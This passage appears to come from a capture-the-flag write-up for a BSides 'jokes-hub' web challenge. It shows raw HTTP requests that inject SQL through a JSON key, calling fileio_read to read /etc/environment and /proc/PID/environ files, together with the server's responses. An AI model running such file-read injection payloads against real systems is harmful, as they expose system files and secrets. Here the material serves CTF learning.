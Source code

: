 ```
Connection: close

{"CAST(fileio_read('/etc/environment') AS TEXT ENCODING 'utf-8');--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:30:20 GMT
content-type: application/json
content-length: 123
connection: close

{"result":"PATH=\"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin\"\n"}
```

But the real thing is, the ENV vars are in `/proc/PID/environment`. Let's check the processes, which are after checking, the processes are from 58 to 64 offset.

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 75
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"CAST(fileio_read('/proc/10/environ') AS TEXT ENCODING 'utf-8');--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 09:48:16 GMT
content-type: application/json
content-length: 14
connection: close

{"result":""}
```

